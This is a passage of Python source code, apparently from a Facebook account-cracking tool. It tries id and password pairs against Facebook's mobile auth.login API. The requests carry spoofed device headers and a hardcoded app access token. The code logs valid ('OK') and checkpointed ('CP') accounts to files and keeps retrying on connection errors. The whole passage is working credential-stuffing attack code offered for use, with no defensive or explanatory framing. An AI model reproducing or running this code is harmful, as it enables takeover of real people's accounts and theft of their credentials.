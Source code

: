 		try:

			head = {"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), "x-fb-sim-hni": str(random.randint(20000, 40000)), "x-fb-net-hni": str(random.randint(20000, 40000)), "x-fb-connection-quality": "EXCELLENT", "x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA", "user-agent": ua, "content-type": "application/x-www-form-urlencoded", "x-fb-http-engine": "Liger"}

			resp = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(idf)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=head)

			if "www.facebook.com" in resp.json()["error_msg"]:

				if 'ya' in oprek:

					akun.append(idf+'|'+pw)

					ceker(idf,pw)

				else:

					print('\r%s [Sayek Malik-CP] %s|%s        '%(b,idf,pw))

					open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')

					akun.append(idf+'|'+pw)

					cp+=1

				break

			elif "session_key" in resp.text and "EAAB" in resp.text:

				print('\r%s [ok] %s|%s        '%(h,idf,pw))

				open('OK/'+okc,'a').write(idf+'|'+pw+'\n')

				ok+=1

				break

			else:

				continue

		except requests.exceptions.ConnectionError:

			time.sleep(31)

	loop+=1

def jalan(z):

    for e in z + "\n":

        sys.stdout.write(e)

        sys.stdout.flush()

        time.sleep(0.04)
